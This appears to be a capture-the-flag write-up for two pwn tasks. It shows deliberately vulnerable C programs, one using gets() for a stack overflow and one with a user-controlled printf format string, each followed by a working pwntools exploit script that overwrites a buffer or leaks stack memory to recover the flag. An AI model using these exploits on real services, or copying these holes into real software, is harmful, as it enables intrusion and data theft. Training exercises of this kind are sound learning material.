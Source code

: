 ### Task 32:
+ We got the file `pwn1.c`
```C
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char username[100] = "";
	char password[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```
+ We need pwn this file to get the the Flag.
+ This is solution:

```python
from pwn import *

# Connect to the remote server
conn = remote('IP', 1337)

# Create payload
# "bytereaper" + null byte (string terminator) + padding + password
payload = b"bytereaper\x00" + b"A" * (112-11) + b"5up3rP4zz123Byte"
# offset = 100 + 12 - (10+1)

# Send payload when prompted
conn.recvuntil(b"Username: ")
conn.sendline(payload)

# Receive and print the flag
print(conn.recvall().decode())
```

***Note: The username buffer is 100 bytes. So we need to fill that up using the username ‘bytereaper’ and other junk.  To take advantage of the gets() function, we need to add a null terminator (\x00) at the end of ‘bytereaper’. This is because the rest of the payload won’t be considered when comparing username in the strcmp() function. Size is 12 bytes which is stack_cookie variable in the stack as well right after the username buffer***

### Task 33:
+ We got the next file `pwn21.c`:
```C
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}

void login(){
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// The flag isn't printed anymore. No need for authentication
	print_flag(username);
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

+ This is solution:

```Python
from pwn import *

# Connect to the target service
conn = remote('remote.server', 1337)

# Leak a range of stack offsets using %p
payload = b'%7$p.%8$p.%9$p.%10$p.%11$p.%12$p.%13$p.%14$p.%15$p.%16$p.%17$p.%18$p.%19$p.%20$p'

# Send payload and capture response
conn.sendlineafter(b'Username: ', payload)
response = conn.recvall().decode()

# Extract all hexadecimal values from the response
hex_values = []
for part in response.split('Hello, ')[1].split('. ')[0].split('.'):
    part = part.strip()
    if part.startswith('0x'):
        hex_values.append(part[2:])  # Remove '0x' prefix

# Convert each hex value to bytes (little-endian) and concatenate
full_bytes = b''
for hex_val in hex_values:
    # Pad to ensure valid hex conversion (8 or 16 characters)
    if len(hex_val) % 2 != 0:
        hex_val = '0' + hex_val
    padded = hex_val.zfill(16 if len(hex_val) == 8 else 16)  # Handle 64-bit addresses
    try:
        bytes_leak = bytes.fromhex(padded)
        full_bytes += bytes_leak[::-1]  # Reverse bytes for little-endian
    except:
        continue

# Search for the flag pattern in the concatenated bytes
flag_start = full_bytes.find(b'THM{')
if flag_start != -1:
    flag_end = full_bytes.find(b'}', flag_start)
    flag = full_bytes[flag_start:flag_end+1].decode()
    print(f"Flag found: {flag}")
else:
    print("Flag not found in leaked data")

conn.close()
```

+ Run file and we got the flag:

<img width="743" height="178" alt="image" src="https://github.com/user-attachments/assets/e932991a-697e-4586-bc6b-a81da2513852" />
